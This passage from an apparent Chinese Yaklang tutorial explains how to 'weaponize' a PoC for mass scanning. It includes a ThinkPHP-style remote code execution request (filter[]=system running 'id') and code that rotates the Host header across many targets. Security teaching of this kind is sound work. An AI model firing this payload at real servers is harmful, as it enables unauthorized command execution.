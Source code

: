 ```yaml
        condition: and
      - type: status
        status:
          - 200
```

:::tip
如果大家想要寻找如何编写一个 Nuclei Yaml PoC，[教程在这里](https://nuclei.projectdiscovery.io/templating-guide/)
:::

## 漏洞 PoC `规模化/武器化`

我们通过上面的简单教程，学会了如何编写一个 Yak/Nuclei 版本的 PoC，但是我们发现，上述的代码其实并不是特别可用。主要原因有下面几个：

1. 我们的目标特别多怎么办？ 
1. 我们有些参数需要动态化怎么办？
1. 用户如果只输入了一个盲目的网站 IP + 端口怎么办？
1. ...

我们发现，如果想要让这个 PoC 尽可能真的能扫到目标，其实我们要做的事情，也并不少。


### 回顾一下我们在 `fuzz` 中学习的技能

```go
fReq, err := fuzz.HTTPRequest(`
POST /index.php?s=captcha HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
`)
if err != nil {
    die(err)
}
```

当我们构建了一个可供 Fuzz 的请求之后，我们很容易对这个请求进行变形：

1. 如果要调整他的扫描目标，我们就 `.FuzzHTTPHeader("Host", targets)` 替换掉 Host。
1. 如果说我们要调整 Payload，就 `.FuzzPostParams("server[REQUEST_METHOD]", ["id", "uname"])` 更新想要执行的命令。

```go
rsp, err := fReq.FuzzHTTPHeader("Host", sprintf("{{net(%v)}}:{{port(%v)}}", host, port)).FuzzPostParams("server[REQUEST_METHOD]", ["id", "uname"]).Exec()
die(err)
```

所以，我们对这个 Payload 进行了 Fuzz，同时替换了一些关键的参数

:::tip

这么做的好处不言而喻，我们使用 `fuzz` 模块，可以做到尽量少修改 PoC 源码的情况下，外部修改请求参数从而达到修改最终发出的数据包的目的。
